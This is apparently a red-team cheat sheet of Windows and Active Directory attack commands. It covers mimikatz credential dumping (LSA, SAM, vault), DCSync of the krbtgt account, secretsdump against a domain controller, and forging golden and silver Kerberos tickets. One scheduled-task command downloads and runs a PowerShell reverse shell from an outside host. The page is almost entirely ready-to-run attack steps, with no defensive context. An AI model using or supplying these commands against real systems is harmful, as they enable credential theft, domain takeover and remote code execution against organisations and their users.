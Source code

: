 https://github.com/gentilkiwi/mimikatz

```powershell
mimikatz.exe

# Elevate Privileges
privilege::debug

# Elevate privileges to SYSTEM by impersonation
token::elevate

# Dump logged on user and computer credentials
sekurlsa::logonpasswords 

# Retrieves credential from LSA
lsadump::lsa /patch

#
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv

# Retrieves and displays password hashes of local user accounts.
lsadump::sam

# Extracts and displays password hashes from the provided backup hive files.
lsadump::sam SystemBkup.hiv SamBkup.hiv

# Requests and retrieves password hashes for the specified user from the DC.
lsadump::dcsync /user:krbtgt

# List credentials in CredentialManager
vault::list

# Dump credentials in CredentialManager - plaintext password
vault::cred /patch
```

### Dump NTDS.dit
```bash
# Dump just the NTDS.DIT
secretsdump.py MARVEL.local/hawkeye:'Password1@'@10.13.37.20 -just-dc-ntlm
# Crack the NT hash - with some excel and delimiter : magic we can sort the dump into columns
```

### Golden Ticket
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets
```
# Dump hashes - Get the krbtgt hash
lsadump::trust /patch -ComputerName ghost.htb

# Golden Ticket
kerberos::golden /ticket:aaa.kirbi /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /user:administrator /service:krbtgt /target:GHOST.HTB

# Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
lsadump::dcsync /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /user:Administrator

# Check WMI Permission
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### Silver Ticket
https://adsecurity.org/?p=2011
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS
Use the hash of the local computer
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check access (After CIFS silver ticket)
```
ls \\<servername>\c$\
```

#### Make silver ticket for Host
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```